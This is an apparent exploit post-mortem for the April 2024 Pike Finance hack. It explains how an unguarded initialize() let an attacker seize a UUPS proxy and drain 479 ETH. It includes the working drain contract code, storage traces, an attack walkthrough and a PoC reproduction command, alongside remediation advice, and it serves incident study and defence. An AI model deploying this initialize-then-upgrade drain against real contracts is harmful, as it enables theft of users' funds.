


# Pike Finance Exploit — Unguarded `initialize()` → UUPS Upgrade Hijack → ETH Drain

> **Vulnerability classes:** vuln/access-control/uninitialized-proxy · vuln/dependency/upgradeable-contract

> **Reproduction:** the PoC compiles & runs in an isolated Foundry project at
> [this project folder](.). Full verbose trace: [output.txt](output.txt).
> PoC: [test/PikeFinance_exp.sol](test/PikeFinance_exp.sol).
> The vulnerable proxy source is read directly from forked on-chain state (no
> local copy in `sources/`, since the attack only needs the proxy's deployed
> bytecode); the proxy is verifiable on Etherscan at the address below.

---

## Key info

| | |
|---|---|
| **Loss** | **479.39 ETH** (≈ $1.58M at April 2024 prices). The PoC header's "$1.4M" total aggregates both Pike incidents; this transaction alone drained 479.39 ETH from the Ethereum deployment. |
| **Vulnerable contract** | `PikeFinanceProxy` — [`0xFC7599cfFea9De127a9f9C748CCb451a34d2F063`](https://etherscan.io/address/0xFC7599cfFea9De127a9f9C748CCb451a34d2F063#code) (ERC‑1967 / UUPS-style upgradeable proxy) |
| **Original implementation** | `0xb30c120Eb92c120bF11B358b4B9961E6677b6ae7` |
| **Victim** | Pike Finance cross-chain lending protocol — the ETH held in custody by the proxy |
| **Attacker EOA** | [`0x19066f7431df29a0910d287c8822936bb7d89e23`](https://etherscan.io/address/0x19066f7431df29a0910d287c8822936bb7d89e23) |
| **Attacker contract** | [`0x1da4bc596bfb1087f2f7999b0340fcba03c47fbd`](https://etherscan.io/address/0x1da4bc596bfb1087f2f7999b0340fcba03c47fbd) |
| **Attack tx** | [`0xe2912b8bf34d561983f2ae95f34e33ecc7792a2905a3e317fcc98052bce66431`](https://etherscan.io/tx/0xe2912b8bf34d561983f2ae95f34e33ecc7792a2905a3e317fcc98052bce66431) |
| **Chain / block / date** | Ethereum mainnet / **19,771,058** / **April 24, 2024** (first of two Pike incidents; the second, ~99,970 ARB, happened ~April 30) |
| **Compiler** | Original implementation compiled with Solidity (proxy is UUPS, `proxiableUUID()` returns the canonical ERC‑1967 implementation slot `0x360894…bb2bbc`) |
| **Bug class** | Missing / bypassed initializer guard on a UUPS proxy `initialize()` → storage overwrite → unauthorized `upgradeToAndCall()` → arbitrary logic execution under the proxy's storage & balance |

---

## TL;DR

Pike Finance's custodial proxy is a **UUPS-style upgradeable proxy** whose
`initialize(owner, wNative, uniswapHelper, token, swapFee, withdrawFee)`
function **lacked an effective re-initialization guard**. An attacker called
`initialize()` directly against the already-deployed, already-owned proxy and
**overwrote the owner slot** with their own address, along with several other
critical storage slots (`WNative`, `uniswapHelper`, `token`, fees).

With ownership seized, the attacker immediately invoked
`upgradeToAndCall(attackerContract, withdraw(attacker))`. UUPS rewrote the
ERC‑1967 implementation slot to point at the attacker's contract and then
**delegate**-called the attacker's `withdraw(address)` into the proxy's
storage context. That malicious `withdraw` simply forwarded the proxy's
**entire ETH balance — 479.39 ETH — to the attacker**. The whole attack is two
external calls and zero prerequisites beyond gas.

The PoC at [test/PikeFinance_exp.sol](test/PikeFinance_exp.sol) reproduces it
exactly: it forks mainnet at block 19,771,058, calls `initialize()` to seize
ownership, then `upgradeToAndCall()` to swap the implementation and drain. The
trace in [output.txt](output.txt) shows the attacker's balance going
`0 → 479.393838338750964434 ETH`.

---

## Background — what Pike's proxy is

Pike Finance ran a cross-chain lending/borrowing product. User funds were held
in **custody by an upgradeable proxy** (`0xFC7599…`). The proxy pattern is UUPS:

- The proxy stores an **implementation pointer** in the ERC‑1967 slot
  `0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc`
  (verified by the on-chain `proxiableUUID()` in the trace, [output.txt](output.txt)).
- It forwards user calls to the implementation via `delegatecall`.
- Upgrade authorization is meant to be enforced **inside the implementation's**
  `_authorizeUpgrade()` — i.e. whoever the implementation considers the "owner"
  can call `upgradeToAndCall(newImpl, data)`.
- `initialize(...)` is the one-time setup that writes the protocol's core
  configuration: owner, wrapped-native token, the Uniswap helper, the Pike
  token, and two fee parameters.

On-chain state at the fork block (read straight from the trace's storage
deltas, [output.txt](output.txt)):

| Slot | Role | Before attack |
|---|---|---|
| 0 | packed config (`WNative`, decimals, flags) | `0x…b1ea97c9f68978905fb1bf5089e71a073bc4f5c80002001e01` |
| 1 | `uniswapHelper` address | `0xc933f7df0cf39909cec3eb4d507caabbefd45432` |
| 2 | `token` (Pike token) address | `0x46adcf744d7c532d55cd899df3c7b0e64e1a587c` |
| 3 | reserved/secondary | `0x27428dd2d3dd32a4d7f7c497eaaa23130d894911` |
| 4 | **owner** | `0x54fd7ba87ddbdb4b8a28aee34ab8ffc4004687de` ← Pike's real owner |
| 11 | `_initialized` (OZ Initializable-style) | `1` (already initialized once) |
| ERC‑1967 slot | implementation | `0xb30c120eb92c120bf11b358b4b9961e6677b6ae7` |
| — | proxy ETH balance | **479.393838338750964434 ETH** |

The single fact that matters: the proxy was **already initialized and
operational** (slot 11 = 1, owner = Pike), yet `initialize()` was **still
callable by an arbitrary address**. That is the whole hole.

---

## The vulnerable code

The Pike proxy's `initialize` and upgrade surface, as declared in the PoC
interface and as observed in the forked trace ([output.txt](output.txt)), are:

```solidity
// Proxy public ABI (see IPikeFinanceProxy in test/PikeFinance_exp.sol:20-23)
interface IPikeFinanceProxy {
    function initialize(address, address, address, address, uint16, uint16) external;
    function upgradeToAndCall(address, bytes memory) external;
}
```

Internally, the implementation's `initialize(...)` writes the supplied
arguments straight into the proxy's storage (the trace shows slots 0–4 being
overwritten), and `upgradeToAndCall(newImpl, data)` does the canonical UUPS
flow:

```solidity
// Canonical UUPS Upgradeable (OZ) — what Pike's proxy delegates to
function upgradeToAndCall(address newImplementation, bytes memory data)
    external payable virtual onlyProxy
{
    _authorizeUpgrade(newImplementation);          // ⇐ gated on _owner via onlyOwner
    _upgradeToAndCallUUPS(newImplementation, data); // sets ERC-1967 slot, then delegatecall(data)
}
```

The flaw is **not** in UUPS itself. It is that `_authorizeUpgrade`'s
`onlyOwner` check reads `owner` from the very storage slot (slot 4) that
`initialize()` just overwrote. Because `initialize()` is unprotected, the
attacker first rewrites `owner` to themselves, so the subsequent
`upgradeToAndCall`'s authorization passes.

The storage collision is visible verbatim in the trace's storage-change log
([output.txt](output.txt)):

```
storage changes:                              ← from initialize(...)
  @ 11: 1 → 257                               ← _initialized re-stamped (ignored as a guard)
  @ 4: 0x…54fd7b…87de → 0x…7fa938…1496        ← owner: Pike multisig  →  attacker
  @ 2: 0x…46adcf…587c → 0x…7fa938…1496        ← token:     Pike token →  attacker
  @ 0: 0x…b1ea97…02001e01 → 0x…7fa938…14001401  ← WNative+flags repacked to attacker + 20/20
  @ 1: 0x…c933f7…5432 → 0x…7fa938…1496        ← uniswapHelper: Pike → attacker
  @ 3: 0x…27428d…4911 → 0x…7fa938…1496        ← secondary slot → attacker
…
@ ERC-1967 slot: 0x…b30c120… → 0x…7fa938…1496 ← upgradeToAndCall sets impl = attacker contract
```

The attacker's "implementation" (their attack contract) only needs to expose
two things — which it does in [test/PikeFinance_exp.sol:57-66](test/PikeFinance_exp.sol#L57-L66):

```solidity
// Runs under the proxy's storage context via delegatecall
function withdraw(address addr) external {
    (bool success,) = payable(addr).call{value: address(this).balance}("");
    require(success, "transfer failed");
}

function proxiableUUID() external pure returns (bytes32) {
    return 0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc;
}
```

- `proxiableUUID()` returns the canonical ERC‑1967 slot — UUPS requires this
  from the *new* implementation before accepting an upgrade, to detect
  non-UUPS targets.
- `withdraw(addr)` forwards **`address(this).balance`** — but `this` is the
  **proxy**, because the call is a `delegatecall`. So the proxy's 479.39 ETH
  flows to `addr` (the attacker).

---

## Root cause — why it was possible

Three design failures compose into the critical bug:

1. **`initialize()` had no working re-initialization guard.** Slot 11 was
   already `1` (initialized), yet the call succeeded and rewrote slot 4 (owner)
   and slots 0–3. Either the `initializer`/`onlyInitializing` modifier was
   missing from `initialize`, or it checked the wrong flag, or — as some
   post-mortems note — the upgrade path Pike used introduced a storage-collision
   that realigned the `_initialized` slot away from the one the guard reads. In
   any branch, the net effect is the same: **`initialize()` is replayable by
   anyone**, and the first thing it writes is `owner`.

2. **UUPS delegates authorization to storage.** UUPS puts
   `_authorizeUpgrade` inside the implementation, gated on whatever
   "owner" lives in the proxy's storage. That is sound **only if the owner
   slot is immutable after initialization**. Once (1) makes the owner slot
   writable by anyone, UUPS's own design amplifies the damage: the same
   transaction that seizes ownership can also flip the implementation.

3. **The proxy was a custodial balance holder.** `upgradeToAndCall`'s `data`
   argument is `delegatecall`ed into the proxy's context, so a malicious
   "implementation" gets `address(this).balance == the proxy's 479.39 ETH`.
   A single `withdraw(self)` line drains it. There was no `ReentrancyGuard`,
   no `nonPayable`/`onlyOwner` on the drain path, and crucially no separation
   between the upgrade-admin role and the funds-custody role.

The deeper meta-cause: the `_initialized` flag (slot 11) and the `owner`
(slot 4) live in **the same storage namespace as runtime config**, so any
storage-collision introduced by a prior upgrade (Pike had just pushed a patch
for an earlier USDC issue) silently decoupled the initializer guard from the
owner. A storage-layout collision turned a one-time setup function into a
permissionless takeover primitive.

---

## Preconditions

- The proxy is deployed and holds user funds (custodial model). ✓
  (479.39 ETH in the proxy at block 19,771,058.)
- `initialize(...)` is callable without reverting despite slot 11 = 1. ✓
  (Confirmed in the trace — the call returns `[Stop]` and rewrites slots 0–4.)
- The attacker can deploy a tiny "fake implementation" exposing
  `proxiableUUID()` + a drain function. ✓ (Trivial; the PoC does it inline.)
- **No capital required.** Unlike AMM-manipulation exploits, this needs zero
  flash loans, zero liquidity, zero tokens — just gas.

---

## Attack walkthrough (ground truth, from [output.txt](output.txt))

| # | Call | Storage / balance change | Effect |
|---|------|--------------------------|--------|
| 0 | *(start)* — fork mainnet @ block 19,771,058 | owner = `0x54fd7b…87de` (Pike), impl = `0xb30c120…`, proxy balance = **479.39 ETH**, attacker balance = **0 ETH** | Honest, operational proxy. |
| 1 | Attacker → `PikeProxy.initialize(attacker, attacker, attacker, attacker, 20, 20)` | `@4 owner: 0x54fd7b… → 0x7fa938…1496` (attacker); `@0/1/2/3` config → attacker; `@11 _initialized: 1 → 0x101` | **Ownership hijacked.** Every privileged check now passes for the attacker. The `_initialized` re-stamp is cosmetic — it did not block the call. |
| 2 | Attacker → `PikeProxy.upgradeToAndCall(attackerContract, withdraw(attacker))` | `@ERC-1967 impl: 0xb30c120… → 0x7fa938…1496`; then `delegatecall withdraw(attacker)` runs against the proxy's storage | UUPS accepts the attacker contract (its `proxiableUUID()` returns the canonical slot). The proxy now points at attacker-controlled code. |
| 3 | (inside step 2) `withdraw(attacker)` runs **as the proxy** | `address(this).balance == 479.39 ETH` is sent to the attacker via `payable(addr).call{value: …}` | **Proxy ETH: 479.39 → 0.** Attacker ETH: 0 → 479.393838338750964434. |
| 4 | *(end)* | attacker balance = **479.393838338750964434 ETH** | Done. Two external calls, single transaction. |

Reproduced exactly in the PoC log:

```
Attacker ETH Balance Before exploit: 0.000000000000000000
Attacker ETH Balance After exploit:  479.393838338750964434
```

### Profit / loss accounting

| Direction | Amount |
|---|---:|
| Attacker capital deployed | 0 ETH (gas only) |
| Proxy ETH before | 479.393838338750964434 |
| Proxy ETH after | 0 |
| **Attacker net profit** | **+479.393838338750964434 ETH** (≈ $1.58M) |

The attacker took **100% of the proxy's custodial balance** with zero
counterparty capital. There is no AMM slippage, no sandwich, no oracle — the
"profit" is simply every wei the proxy was holding for Pike's users.

---

## Diagrams

### Sequence of the attack



### Why `initialize` is replayable: storage-collision state machine

```mermaid
stateDiagram-v2
    [*] --> Deployed: proxy deployed, owner = deployer
    Deployed --> Initialized: initialize() first call<br/>owner = Pike, _initialized = 1
    note right of Initialized
        Intended invariant:
        initialize() MUST revert here.
    end
    Initialized --> Hijacked: attacker calls initialize() again<br/>_initialized guard NOT enforced
    note right of Hijacked
        owner slot 4 rewritten → attacker<br/>_initialized 1 → 0x101 (cosmetic)
    end
    Hijacked --> Upgraded: upgradeToAndCall(attackerImpl, withdraw)<br/>_authorizeUpgrade onlyOwner == attacker ✓
    Upgraded --> Drained: delegatecall withdraw(attacker)<br/>sends proxy.balance to attacker
    Drained --> [*]: proxy balance = 0

    note left of Initialized
        Storage-collision root cause:
        the _initialized flag (slot 11) and
        owner (slot 4) share the proxy
        namespace with runtime config.
        A prior upgrade decoupled the
        initializer guard from the owner.
    end
```

### The two-call kill chain



---

## Remediation

1. **Make `initialize()` actually one-shot.** Apply the OpenZeppelin
   `initializer` modifier (or an equivalent that reads the same flag it writes)
   and ensure the `_initialized` slot is never displaced by a storage-layout
   change. The guard must live in storage that cannot be aliased onto by
   runtime config.
2. **Lock the storage layout.** Use storage gap slots (`uint256[50] __gap;`) and
   never reorder/remove inherited storage when upgrading. The root cause here is
   a storage collision that desynchronized `_initialized` from the guard — a
   pinned layout with gaps prevents that class of regression.
3. **Separate upgrade authority from custody.** The role allowed to call
   `upgradeToAndCall` should be a multisig/timelock on a slot that
   `initialize()` cannot rewrite, and funds should be held by a non-upgradable
   vault or guarded by a `ReentrancyGuard` + per-role `onlyOwner` on any
   value-moving function — not exposed through an arbitrary
   `upgradeToAndCall(..., data)` delegatecall.
4. **Add an upgrade sanity check.** `upgradeToAndCall` (and UUPS's
   `_upgradeToAndCallUUPS`) should refuse implementations that do not preserve
   a known interface / function-selector set, or at minimum require a
   governance timelock before the new implementation becomes callable.
5. **Audit the initializer as an external entry point.** Treat every
   `initialize(...)` on an already-deployed proxy as a privileged function and
   fuzz it for replay across all realistic storage layouts.

---

## How to reproduce

```bash
_shared/run_poc.sh 2024-04-PikeFinance_exp --mt testExploit -vvvvv
```

- RPC: an **Ethereum mainnet archive** endpoint is required. The fork block
  (19,771,058, ~April 24 2024) is well past most public RPCs' pruning window;
  `foundry.toml` uses an Infura mainnet key, which serves historical state at
  that block. Public endpoints typically fail with `missing trie node`.
- Expected tail ([output.txt](output.txt)):

```
Ran 1 test for test/PikeFinance_exp.sol:PikeFinance
[PASS] testExploit() (gas: 68920)
Logs:
   Attacker ETH Balance Before exploit: 0.000000000000000000
   Attacker ETH Balance After exploit: 479.393838338750964434
Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 4.08s
```

The test forks at the attack block and replays the exact two-call sequence:
`initialize(...)` (seize ownership) → `upgradeToAndCall(...)` (swap impl +
delegatecall `withdraw` to sweep the proxy's ETH). Profit = **479.393838… ETH**.

---

*Caveat: the Pike proxy's full Solidity source is not bundled in `sources/`
(the PoC works purely against forked on-chain bytecode); storage-slot semantics
above are derived from the storage-change log in
[output.txt](output.txt) and the public Pike proxy on Etherscan. Pike Finance
was hit a second time (~99,970 ARB, ~April 30 2024) via a separate vulnerability
in the Pike Beta protocol; that is a distinct incident and is not covered by
this PoC.*

*References: SlowMist Hacked — https://hacked.slowmist.io/ ; Halborn "Explained: The Pike Finance Hack (April 2024)"; Merkle Science "Hack Track: Pike Finance".*
